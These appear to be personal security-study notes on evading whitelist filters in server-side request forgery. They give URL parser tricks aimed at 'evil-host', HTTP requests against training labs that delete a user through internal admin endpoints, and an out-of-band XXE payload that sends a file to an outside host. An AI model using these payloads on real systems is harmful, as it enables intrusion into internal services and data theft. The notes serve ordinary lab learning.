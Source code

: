 ## Evading whitelist-based input filters

Some applications only allow input that matches, begins with, or contains, a whitelist of permitted values.

You can sometimes circumvent the filter by exploiting inconsistencies in URL parsing (aka exploiting **parser differentials**):

- Embed credentials in a URL before the hostname (`https://expected-host@evil-host`)
- Use the `#` character to indicate a URL fragment (`https://evil-host#expected-host`)
- Leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control (`https://expected-host.evil-host`)
- URL-encode characters to confuse the URL-parsing code. *This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.* (`example@gmail.com` vs `example@gmail.com%0d`)
- Exploit [Open Redirection](Open%20Redirection.md) vulnerabilities to bypass strictly validated trusted domains (eg. imagine the server accepts only the domain weliketoshop.net, the following open redirect would allows an SSRF to 129.168.0.68: `http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin`)
>[!example]
>```http
>POST /product/stock HTTP/1.1
>Host: 0a40008604dc1e84c293433200fb0054.web-security-academy.net
>Cookie: session=euJyrsJeSgzirZkV6Hvxy7CpYOzlen4h
>Content-Length: 201
>Connection: close
>
>storeId=1&stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttps%3a//127.0.0.1/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete?username=carlos
>```
- Mix multiple techniques together
>[!example]
>SSRF using double url-encoding and HTTP credentials
>```http
>POST /product/stock HTTP/1.1
>Host: 0a7100e0036d60c9c2c90c6b0072001b.web-security-academy.net
>Cookie: session=NnrIA2v71rTLnuds4qpbsbH6psfcgm2l
>Content-Length: 95
>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
>Content-Type: application/x-www-form-urlencoded
>Accept: */*
>Connection: close
>
>stockApi=http://localhost:80%252f%2523@stock.weliketoshop.net:8080/admin/delete?username=carlos
>```
- Evading restrictions importing data fromelsewhere using out-of-band requests
>[!example] Example of OOB [XML External Entity Injection (XXE Injection)](XML%20External%20Entity%20Injection%20(XXE%20Injection).md)
>
>```xml
><?xml version="1.0" encoding="UTF-8" standalone="yes"?>
><!DOCTYPE foo [
>    <!ENTITY % xxe SYSTEM "{YOUR_NGORK_URL}/ext.dtd">
>    %xxe;
>]>
><foo>&exfil;</foo>
>```
>*/ext.dtd*:
>```xml
><!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
><!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://192.168.1.199/bypass.xml?%data;'>">
>%abt;

[^unicode-norm]: [Unicode normalization](https://book.hacktricks.xyz/pentesting-web/unicode-injection/unicode-normalization), hacktricks.xyz
[^nip.io]: [nip.io](https://nip.io/)
[^dns-reb]: [DNS rebinding](../Services/DNS%20-%20Domain%20Name%20System.md#DNS%20rebinding)
[^localhost-bypass]: [SSRF bypass list by h4x0r_fr34k](../../Readwise/Tweets/h4x0r_fr34k%20on%20Twitter%20-%20Tweets%20From%20VAIDIK%20PANDYA.md#^2da607)
[^nowafplease]: [Bad Sector Labs Blog - Jun 17 2024 Last Week in Security (LWiS) - 2024-06-17](../../Readwise/Articles/Bad%20Sector%20Labs%20Blog%20-%20Jun%2017%202024%20Last%20Week%20in%20Security%20(LWiS)%20-%202024-06-17.md#^88de29)